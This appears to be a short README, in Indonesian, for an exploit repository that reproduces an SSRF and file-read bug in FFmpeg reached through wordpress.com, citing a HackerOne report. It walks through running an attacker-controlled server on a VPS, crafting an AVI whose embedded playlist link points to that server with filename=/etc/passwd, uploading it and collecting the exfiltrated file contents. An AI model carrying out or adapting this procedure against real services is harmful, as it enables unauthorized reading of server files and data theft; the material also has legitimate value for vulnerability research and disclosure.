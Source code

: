# SSRF-ffmpeg
1.Dapatkan droplet / VPS / apapun dengan IP eksternal. Luncurkan skrip saya seperti ini: python3 file_reading_server.py --external-addr <external-ip-of-your-server> --port 8080(Anda memerlukan python3.5).
  
2.Seperti di SSRF repro langkah 1, memodifikasi http_q.avisehingga link di dalamnya akan mengarah ke server Anda dan menjadi seperti ini: http://<external-ip-of-your-server>:8080/initial.m3u?filename=/etc/passwd. Anda dapat mengganti /etc/passwddengan nama file lain jika Anda mau.
  
3.Seperti di repro SSRF langkah 2, unggah file yang dihasilkan ke wordpress.com dan klik "Edit". Setelah beberapa saat, beberapa keluaran debug dari skrip saya akan dicetak ke konsol (karena permintaan SSRF). Tunggu sampai keluarannya berhenti. Kemudian periksa arah kerja skrip. Ini akan berisi file dengan nama seperti ini: <some random string>_<filename-without-slashes>. Isi file ini diterima dari node yang menjalankan FFmpeg.
  
  reports: https://hackerone.com/reports/237381
